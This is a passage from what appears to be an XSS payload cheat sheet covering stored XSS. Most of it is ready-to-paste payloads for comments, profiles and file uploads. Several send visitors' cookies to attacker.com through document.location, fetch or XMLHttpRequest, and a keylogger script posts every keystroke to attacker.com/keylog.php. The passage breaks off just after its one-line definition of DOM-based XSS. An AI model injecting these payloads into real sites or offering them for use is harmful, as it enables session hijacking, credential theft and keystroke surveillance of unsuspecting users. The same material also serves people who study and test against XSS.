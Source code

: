 ## Stored XSS {#stored-xss}

Stored XSS occurs when malicious scripts are permanently stored on the server and executed when other users view the content.

### Persistent Payloads

#### 1. Comment Systems
```javascript
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

#### 2. User Profiles
```javascript
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
<img src=x onerror="fetch('http://attacker.com/steal.php?cookie='+document.cookie)">
```

#### 3. File Upload
```javascript
<script>alert('XSS')</script>
<iframe src="javascript:alert('XSS')">
<object data="javascript:alert('XSS')">
```

### Advanced Stored XSS

#### 1. Session Hijacking
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie);
xhr.send();
</script>
```

#### 2. Keylogger
```javascript
<script>
document.addEventListener('keydown', function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/keylog.php');
    xhr.send('key=' + e.key);
});
</script>
```

## DOM-Based XSS {#dom-based-xss}

DOM-based XSS occurs when client-side JavaScript modifies the DOM in an unsafe way.
